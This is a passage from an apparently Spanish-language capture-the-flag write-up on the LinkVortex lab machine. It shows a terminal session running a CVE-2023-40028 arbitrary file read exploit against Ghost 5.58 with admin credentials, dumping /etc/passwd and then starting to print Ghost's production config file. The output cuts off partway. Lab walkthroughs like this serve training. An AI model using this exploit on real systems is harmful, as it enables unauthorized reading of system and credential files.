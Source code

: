 analizando la pagina no encontre nada pero como me lo imaginaba los forma de acceder a la maquina es por `ghost 5.58` la aplicacion que corre atras de la pagina

```
   1   │ ┌──(noesholk㉿noes)-[~/Descargas/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028]
   2   │ └─$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
   3   │ WELCOME TO THE CVE-2023-40028 SHELL
   4   │ Enter the file path to read (or type 'exit' to quit): /etc/password
   5   │ File content:
   6   │ <!DOCTYPE html>
   7   │ <html lang="en">
   8   │ <head>
   9   │ <meta charset="utf-8">
  10   │ <title>Error</title>
  11   │ </head>
  12   │ <body>
  13   │ <pre>Not Found</pre>
  14   │ </body>
  15   │ </html>
  16   │ Enter the file path to read (or type 'exit' to quit): /etc/passwd
  17   │ File content:
  18   │ root:x:0:0:root:/root:/bin/bash
  19   │ daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  20   │ bin:x:2:2:bin:/bin:/usr/sbin/nologin
  21   │ sys:x:3:3:sys:/dev:/usr/sbin/nologin
  22   │ sync:x:4:65534:sync:/bin:/bin/sync
  23   │ games:x:5:60:games:/usr/games:/usr/sbin/nologin
  24   │ man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  25   │ lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  26   │ mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  27   │ news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  28   │ uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  29   │ proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  30   │ www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  31   │ backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  32   │ list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  33   │ irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
  34   │ gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  35   │ nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  36   │ _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
  37   │ node:x:1000:1000::/home/node:/bin/bash
  38   │ Enter the file path to read (or type 'exit' to quit): 
  39   │ Invalid input. Please enter a valid file path without spaces.
  40   │ Enter the file path to read (or type 'exit' to quit): 
  41   │ Invalid input. Please enter a valid file path without spaces.
  42   │ Enter the file path to read (or type 'exit' to quit): 
  43   │ Invalid input. Please enter a valid file path without spaces.
  44   │ Enter the file path to read (or type 'exit' to quit): 
  45   │ Invalid input. Please enter a valid file path without spaces.
  46   │ Enter the file path to read (or type 'exit' to quit): 
  47   │ Invalid input. Please enter a valid file path without spaces.
  48   │ Enter the file path to read (or type 'exit' to quit): 
  49   │ Invalid input. Please enter a valid file path without spaces.
  50   │ Enter the file path to read (or type 'exit' to quit): 
  51   │ Invalid input. Please enter a valid file path without spaces.
  52   │ Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
  53   │ File content:
  54   │ {
  55   │   "url": "http://localhost:2368",
  56   │   "server": {
  57   │     "port": 2368,
  58   │     "host": "::"
```